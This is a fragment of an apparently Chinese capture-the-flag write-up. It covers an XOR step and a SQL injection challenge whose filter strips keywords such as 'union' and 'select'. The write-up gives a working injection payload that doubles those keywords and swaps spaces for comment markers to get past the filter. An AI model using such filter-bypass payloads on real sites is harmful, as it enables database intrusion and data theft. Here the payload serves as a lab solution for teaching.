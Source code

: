 ![2019-ecnu-6](./img/2019-ecnu-6.png)
![2019-ecnu-7](./img/2019-ecnu-7.png)
所以将 u1nnf2lg 与 2 异或得到的就是 flag 的后半部分

## 冈村宁次

第一题的加强版，id 是 base64 之后逆置，waf 会删除 or、select、union 等词，复读绕过，空格用/\*\*/绕过

```
1/**/ununionion/**/seselect/**/1,2,3,flag,5,6/**/from/**/flag
```
